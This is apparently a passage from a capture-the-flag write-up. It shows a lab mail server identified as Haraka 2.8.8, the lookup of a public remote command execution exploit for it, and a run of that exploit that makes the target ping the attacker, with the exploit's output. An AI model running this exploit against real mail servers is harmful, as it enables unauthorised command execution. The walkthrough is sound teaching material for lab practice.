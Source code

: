 ### Path 1: Haraka

#### Enumeration

I’ll notice when I got increased network access, port 1025 was now listening. `nmap` didn’t identify it, but a patient `nc` connection will:

```

root@kali# nc 10.10.10.113 1025
220 redcross ESMTP Haraka 2.8.8 ready
421 timeout  

```

#### Exploit

There’s an exploit for this version of Haraka:

```

root@kali# searchsploit haraka
------------------------------------------- ----------------------------------------
 Exploit Title                             |  Path
                                           | (/usr/share/exploitdb/)
------------------------------------------- ----------------------------------------
Haraka < 2.8.9 - Remote Command Execution  | exploits/linux/remote/41162.py
------------------------------------------- ----------------------------------------
Shellcodes: No Result

```

I used this script without modification. First, I got the target to ping me:

```

[HARAKIRI SUCCESS] SMTPDataError is most likely an error unzipping the archive, which is what we want [Error unpacking archive]                                                                                            
root@kali# python 41162.py -c "ping -c 1 10.10.14.14" -t penelope@redcross.htb -m 10.10.10.113                                                                                          
##     ##    ###    ########     ###    ##    ## #### ########  ####
##     ##   ## ##   ##     ##   ## ##   ##   ##   ##  ##     ##  ##
##     ##  ##   ##  ##     ##  ##   ##  ##  ##    ##  ##     ##  ##
######### ##     ## ########  ##     ## #####     ##  ########   ##
##     ## ######### ##   ##   ######### ##  ##    ##  ##   ##    ##
##     ## ##     ## ##    ##  ##     ## ##   ##   ##  ##    ##   ##
##     ## ##     ## ##     ## ##     ## ##    ## #### ##     ## ####
-o- by Xychix, 26 January 2017 ---
-o- xychix [at] hotmail.com ---
-o- exploit haraka node.js mailserver <= 2.8.8 (with attachment plugin activated) --
-i- info: https://github.com/haraka/Haraka/pull/1606 (the change that fixed this)

Send harariki to penelope@redcross.htb, attachment saved as harakiri-20190403-125438.zip, commandline: ping -c 1 10.10.14.14 , mailserver 10.10.10.113 is used for delivery
...[snip]...

```
